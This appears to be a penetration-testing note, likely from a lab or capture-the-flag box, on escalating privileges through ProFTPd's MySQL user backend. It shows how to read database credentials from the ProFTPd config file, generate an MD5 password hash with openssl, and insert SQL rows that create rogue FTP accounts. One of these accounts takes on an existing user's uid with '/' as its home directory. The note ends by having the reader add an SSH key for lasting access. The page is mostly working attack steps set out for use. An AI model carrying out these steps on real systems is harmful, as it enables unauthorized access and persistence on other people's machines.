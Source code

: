 # ProFTPd

The following is specifically for using ProFTPd for privilege escalation. If you have read access to the ProFTPd config file at `/etc/proftpd/sql.conf`, you can find some creds to connect to mysql in that file. More is explained under “Linux Tips”.

To insert a new user in the database for privesc, generate your password here:

```jsx
/bin/echo "{md5}"`/bin/echo -n "password" | openssl dgst -binary -md5 | openssl enc -base64`
// outputs {md5}X03MO1qnZdYdgyfeuILPmQ==
```

Put this in Mysql with your newly generated password hash

```jsx
INSERT INTO ftpuser (userid,passwd,uid,gid,homedir,shell) VALUES ("virusspec","{md5}X03MO1qnZdYdgyfeuILPmQ==","1001","1001","/home/benoit","/bin/bash");
```

![Untitled](ProFTPd%2009239e300e9e4681b40e318966aeacd2/Untitled.png)

You can now login to ftp as the new user

![Untitled](ProFTPd%2009239e300e9e4681b40e318966aeacd2/Untitled%201.png)

(reference of this from here [https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf))

That’s how to create any user. If you want to make a specific user to privilege escalate to (for me it is “benoit”, you’ll do the following).

```jsx
INSERT INTO ftpuser (id, userid, passwd, uid,gid,homedir, shell,count, accessed, modified) VALUES (NULL, 'benoit', '{md5}X03MO1qnZdYdgyfeuILPmQ==', '1000', '1000', '/', '/bin/bash', '0', '2022–12–05 05:26:29', '2022–12–12 05:26:29');
```

Optionally, you could set the values for “accessed” and “modified” as null or leave them out completely. They don’t really matter.

From there, log in as your desired user and add an ssh key.

![Untitled](ProFTPd%2009239e300e9e4681b40e318966aeacd2/Untitled%202.png)

![Untitled](ProFTPd%2009239e300e9e4681b40e318966aeacd2/Untitled%203.png)